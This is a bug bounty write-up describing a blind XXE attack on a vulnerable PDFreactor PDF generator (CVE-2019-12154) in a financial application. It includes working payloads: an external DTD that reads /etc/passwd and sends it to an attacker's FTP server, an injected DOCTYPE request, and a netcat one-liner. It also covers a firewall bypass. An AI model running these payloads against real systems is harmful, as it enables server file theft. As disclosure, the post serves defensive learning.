 ```yaml
---
layout: post
title: "Data Exfiltration through Blind XXE on PDF Generator"
description: "In this post, I will explain how I found a Blind XXE injection on PDF Generator that was vulnerable to CVE-2019-12154"
categories: BugBounty
image: /assets/images/49.png
---
```

## Data Exfiltration through Blind XXE on PDF Generator

# Summary:

&nbsp;
In this post, I will explain how I found a Blind XXE injection on PDF Generator that was vulnerable to CVE-2019-12154. However, in order to exfilftrate data, I had to bypass some WAF restrictions.
&nbsp;

&nbsp;
![image49]({{ site.baseurl }}/assets/images/49.png){:.images}
&nbsp;

An XML External Entity attack is a type of attack against an application that parses XML input. This attack occurs when XML input containing a reference to an external entity is processed by a weakly configured XML parser. This attack may lead to the disclosure of confidential data, denial of service, server side request forgery, port scanning from the perspective of the machine where the parser is located, and other system impacts.
&nbsp;

The web application that I was testing was designed for financial operations, and low-level users were able to generate reports. Because this was a private bug bounty program, I've redacted some of the screenshots below and referred to the target as **"redacted.com"**.
&nbsp;

RealObjects PDFreactor (version 9.1.97971) was used in the web application to generate PDF reports. Versions of PDFReactor prior to "10.1.1" are vulnerable to CVE-2019-12154, which does not have a publicly available PoC, but I was able to reproduce the issue by injecting malicious XML content and exfiltrate data using external DTD's.
&nbsp;

In order to reproduce this vulnerability, two attacking machines with publicly accessible IP addresses were required. This was due to the PDF Generator machine's firewall only allowing requests to port 443. The need for an SSL certificate was eliminated because I was able to bypass the application logic by using **http://** as protocol and appending port **:443** at the end of the url, such as **http://attacker.com:443**.


# Steps to Reproduce:

&nbsp;
**1. Preparing the needed scripts and payloads:**{: style="color: red"}
&nbsp;

While exploiting this vulnerability, I had pointed the below subdomains to two different IP's.
&nbsp;

1. http.arben.sh -> [IP_HERE]
1. ftp.arben.sh -> [ANOTHER_IP_HERE]

&nbsp;
On the `ftp.arben.sh`{: style="color: red"} server I used [xxe-ftp-server.rb](https://github.com/ONsec-Lab/scripts/blob/master/xxe-ftp-server.rb) which uses Ruby language to launch an FTP server on the attacker's specified port (in this case 443).
&nbsp;

To do this, I changed line nr. 3 on xxe-ftp-server.rb script from **"ftp_server = TCPServer.new 2121"** to **"ftp_server = TCPServer.new 443**".
&nbsp;

Then fired up the script using the following command:
> $> ruby xxe-ftp-server.rb
> {: style="color: red"}

&nbsp;

Heading over to `http.arben.sh`{: style="color: red"} subdomain, in the directory where the HTTP server would be running, I created a file named **payload.dtd** with the following content.
&nbsp;

&nbsp;
```xml
<!ENTITY % stuff SYSTEM "file:///etc/passwd">
<!ENTITY % param1 "<!ENTITY external SYSTEM 'ftp://ftp.arben.sh:443/%stuff;'>">
```
&nbsp;

A simple way to start a HTTP server on a desired port is by using Python with the following command:
> $> python3 -m http.server 443
> {: style="color: red"}
&nbsp;

**2. Sending the malicious request:**{: style="color: red"}
&nbsp;

I logged in using my low-privileged account and navigated to the report generation page from the left menu. I had BurpSuite on the background intercepting the requests and clicked on the "PDF" text (marked with red sign as shown in the screenshot below) in order to generate the PDF.

&nbsp;
![image46]({{ site.baseurl }}/assets/images/46.png){:.images}
&nbsp;

On the intercepted request being made to "https://redacted.com/redacted/api/v1/pdf/download", I then edited the **htmlBody=**{: style="color: red"} parameter with the following payload (URL encoded):
&nbsp;

&nbsp;
```xml
<!DOCTYPE foo [ <!ENTITY % pe SYSTEM "https://http.arben.sh:443/payload.dtd"> %pe; %param1; ]>
<foo>&external;</foo>
```

&nbsp;
- The above payload would send a HTTP request to our HTTP server and execute the payload stored within **payload.dtd**, which would then exfiltrate data of **/etc/passwd** (or any specified file/directory) to our FTP server as shown on the screenshots below. Even though the target's server responded with a "500 Internal Server Error" status code, the payload was being processed in the backend.


&nbsp;
![image47]({{ site.baseurl }}/assets/images/47.png){:.images}
&nbsp;

Heading over to our virtual private server's, we saw that a request for **payload.dtd** was made and we began receiving data on our FTP server. We were able to easily enumerate files and directories on the target's system because this PDFGenerator was built in Java.

&nbsp;
![image48]({{ site.baseurl }}/assets/images/48.png){:.images}
&nbsp;

When I mentioned this issue to my friend [0xCela](https://twitter.com/0xcela), he came up with a One-Liner that would eliminate the need for two private servers.
&nbsp;

An attacker could use the **netcat** utility to listen on port 443 and serve a static response (malicious dtd), then kill the HTTP server and immediately start an FTP server using the Ruby script. Even though this appears to be simple because it requires less effort to set up the payloads, it may only work occasionally due to race conditions and lower the vulnerability severity, but again it would reduce the attacker's cost.
&nbsp;

**Command on VPS:**
&nbsp;

```bash
echo -e 'HTTP/1.1 200 OK\n\n<!ENTITY % payl SYSTEM '"'"'file:///etc/passwd'"'"'>\n<!ENTITY % int "<!ENTITY &#37; trick SYSTEM '"'"'ftp://attacker:443/%payl;'"'"'>">' | nc -N -lnvp 443; ruby xxe-ftp-server.rb

```
&nbsp;

**Request payload on BurpSuite:**
&nbsp;

```xml
<?xml version="1.0"?><!DOCTYPE convert [ <!ENTITY % remote SYSTEM "http://attacker:443/">%remote;%int;%trick;]>
```
&nbsp;

*Note: A PDF Generator may appear insignificant at first glance but it can be an open door to your organization for the attacker. To resolve such issues, make sure your software is always up to date and that proper WAF rules are in place.*

&nbsp;
*Thank you for taking the time to read this, and I hope you find it useful.*
&nbsp;
